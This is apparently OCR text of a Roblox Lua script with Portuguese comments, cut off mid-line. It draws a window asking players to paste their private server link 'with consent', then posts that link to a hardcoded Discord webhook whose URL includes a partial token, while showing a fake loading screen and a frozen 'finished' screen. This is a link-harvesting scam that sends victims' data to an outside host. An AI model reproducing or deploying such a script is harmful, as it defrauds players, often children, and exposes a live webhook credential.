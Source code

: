 -- Serviços
local Players = game:GetService("Players")
local HttpService = game:GetService("HttpService")
local player = Players.LocalPlayer

-- GUI principal
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
gui.Name = "PrivateServerConsent"
gui.ResetOnSpawn = false
gui.IgnoreGuiInset = true

-- Janela de entrada
local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0.5, 0, 0.4, 0)
frame.Position = UDim2.new(0.25, 0, 0.3, 0)
frame.BackgroundColor3 = Color3.fromRGB(45, 45, 45)
frame.BorderSizePixel = 0
frame.AnchorPoint = Vector2.new(0.5, 0.5)
frame.ClipsDescendants = true
frame.Active = true

-- Estilo visual
local corner = Instance.new("UICorner", frame)
corner.CornerRadius = UDim.new(0.05, 0)

local shadow = Instance.new("ImageLabel", frame)
shadow.Size = UDim2.new(1, 30, 1, 30)
shadow.Position = UDim2.new(0, -15, 0, -15)
shadow.BackgroundTransparency = 1
shadow.Image = "rbxassetid://1316045217"
shadow.ImageTransparency = 0.5
shadow.ScaleType = Enum.ScaleType.Slice
shadow.SliceCenter = Rect.new(10, 10, 118, 118)
shadow.ZIndex = 0

-- Título
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, -20, 0.2, 0)
title.Position = UDim2.new(0, 10, 0.05, 0)
title.Text = "🚀 Envie seu link do servidor privado com consentimento"
title.TextColor3 = Color3.fromRGB(255, 255, 255)
title.BackgroundTransparency = 1
title.TextScaled = true
title.Font = Enum.Font.GothamBold

-- Caixa de texto
local textbox = Instance.new("TextBox", frame)
textbox.Size = UDim2.new(0.9, 0, 0.25, 0)
textbox.Position = UDim2.new(0.05, 0, 0.3, 0)
textbox.PlaceholderText = "Cole o link do servidor privado aqui"
textbox.Text = ""
textbox.TextScaled = true
textbox.Font = Enum.Font.Gotham
textbox.BackgroundColor3 = Color3.fromRGB(60, 60, 60)
textbox.TextColor3 = Color3.fromRGB(255, 255, 255)
Instance.new("UICorner", textbox)

-- Botão
local button = Instance.new("TextButton", frame)
button.Size = UDim2.new(0.9, 0, 0.2, 0)
button.Position = UDim2.new(0.05, 0, 0.65, 0)
button.Text = "📤 Enviar link do servidor privado"
button.BackgroundColor3 = Color3.fromRGB(0, 170, 255)
button.TextColor3 = Color3.fromRGB(255, 255, 255)
button.TextScaled = true
button.Font = Enum.Font.GothamBold
Instance.new("UICorner", button)

-- Tela de carregamento
local loading = Instance.new("TextLabel", gui)
loading.Size = UDim2.new(1, 0, 1, 0)
loading.Position = UDim2.new(0, 0, 0, 0)
loading.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
loading.TextColor3 = Color3.fromRGB(255, 255, 255)
loading.TextScaled = true
loading.Font = Enum.Font.GothamBlack
loading.Visible = false
loading.Text = ""

-- Tela congelada final
local freeze = Instance.new("Frame", gui)
freeze.Size = UDim2.new(1, 0, 1, 0)
freeze.Position = UDim2.new(0, 0, 0, 0)
freeze.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
freeze.Visible = false

local freezeLabel = Instance.new("TextLabel", freeze)
freezeLabel.Size = UDim2.new(1, 0, 1, 0)
freezeLabel.Position = UDim2.new(0, 0, 0, 0)
freezeLabel.Text = "✅ 100% - Finalizado"
freezeLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
freezeLabel.TextScaled = true
freezeLabel.Font = Enum.Font.GothamBlack
freezeLabel.BackgroundTransparency = 1

-- Botão de envio
button.MouseButton1Click:Connect(function()
    local link = textbox.Text
    if link ~= "" then
        frame.Visible = false
        loading.Visible = true

        -- Enviar ao webhook
        pcall(function()
            HttpService:PostAsync(
                "https://discord.com/api/webhooks/1422085613611389019/XRhr1u5VQsG2BEABfyxhHY58wSUvsXwhEwV7WIKzEVogMypL
